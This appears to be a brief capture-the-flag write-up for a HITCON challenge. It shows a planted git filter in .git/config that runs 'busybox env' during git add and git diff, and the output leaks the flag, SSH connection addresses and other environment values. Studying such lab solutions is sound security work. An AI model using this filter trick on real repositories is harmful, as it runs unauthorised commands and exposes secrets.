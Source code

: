 The `.git/config` has been replaced by our file:

```
Enter your command: cat .git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[filter "test"]
        clean = busybox env
        smudge = cat
```

Now, trigger the git filter again:

```
touch test2.c
git add .
git diff
```

You can find the flag in output:

```
diff --git a/test2.c b/test2.c
index 4e43e22..af90735 100644
--- a/test2.c
+++ b/test2.c
@@ -1,17 +0,0 @@
-FLAG=hitcon{Bu5yb0X_34511y_cR4sH_Wh3N_bu117_w17h_C14Ng?}
-SSH_CONNECTION=117.133.64.11 7895 10.10.0.18 22
-PWD=/work
-SHELL=/bin/sh
-PATH=//libexec/git-core:/bin
-TERM=xterm-256color
-LOGNAME=root
-GIT_PREFIX=
```

Solved.
